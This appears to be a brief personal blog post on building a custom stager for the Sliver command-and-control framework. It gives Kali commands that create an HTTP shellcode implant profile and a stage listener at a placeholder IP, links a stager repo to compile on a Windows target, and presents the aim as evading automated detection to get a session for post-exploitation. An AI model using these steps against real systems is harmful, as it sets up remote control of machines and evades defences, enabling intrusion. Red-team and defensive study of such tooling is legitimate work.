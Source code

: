 ```yaml
---
title: "custom sliver stager"
date: "2023-01-08"
layout: post
---
```


First all props go to Dominic doing all the hard work and if you want to know the nitty gritty plus different ways of getting custom stagers up and running go check out his write up.

[https://dominicbreuker.com/post/learning\_sliver\_c2\_06\_stagers/](https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/)

My experience is that custom stagers can help evade automated detection mechanisms but realizing it's always a cat and mouse game these are just the steps that have worked for me as of this write up.


Sliver instructions within Kali

```bash
apt-get install sliver
sliver-server
profiles new --http IP:80 --format shellcode name
stage-listener --url http://IP:80 --profile name
```

Above the IP is the C2 server / Kali IP address and the 'name' refers to the unique name you assign it on the command line. Once that's done then head over to your windows target and compile the stager following the simple instructions below.

[https://github.com/travisaltman/sliver-c-stager/blob/main/README.md](https://github.com/travisaltman/sliver-c-stager/blob/main/README.md)

After executing the compiled exe you should hopefully have a session within Sliver to continue your post exploitation goodness.
